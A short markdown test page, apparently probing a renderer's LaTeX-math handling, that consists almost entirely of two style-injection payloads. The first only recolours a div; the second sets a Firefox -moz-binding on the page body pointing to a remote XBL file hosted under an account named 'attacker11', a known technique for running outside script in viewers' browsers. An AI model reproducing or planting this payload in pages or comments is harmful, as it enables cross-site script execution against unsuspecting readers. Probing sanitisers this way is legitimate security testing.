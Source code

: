 ## test

$$\<style>div{background-color:#66f3e6}</style>{}$$

$$\<style>body{-moz-binding:url(https://raw.githubusercontent.com/attacker11/randommmmm-test-12345/main/script.xml#mycode);}</style>{}$$
